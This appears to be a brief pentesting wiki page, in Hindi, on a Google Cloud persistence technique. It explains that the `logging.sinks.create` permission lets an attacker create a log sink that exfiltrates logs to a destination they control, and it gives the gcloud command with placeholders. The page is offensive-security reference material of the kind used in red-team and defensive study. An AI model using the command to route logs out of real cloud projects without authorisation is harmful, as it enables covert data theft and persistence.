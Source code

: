 # GCP - Logging Persistence

{{#include ../../../banners/hacktricks-training.md}}

## Logging

Logging के बारे में अधिक जानकारी प्राप्त करें:

{{#ref}}
../gcp-services/gcp-logging-enum.md
{{#endref}}

### `logging.sinks.create`

एक सिंक बनाएं ताकि लॉग को हमलावर की पहुंच योग्य गंतव्य पर एक्सफिल्ट्रेट किया जा सके:
```bash
gcloud logging sinks create <sink-name> <destination> --log-filter="FILTER_CONDITION"
```
{{#include ../../../banners/hacktricks-training.md}}
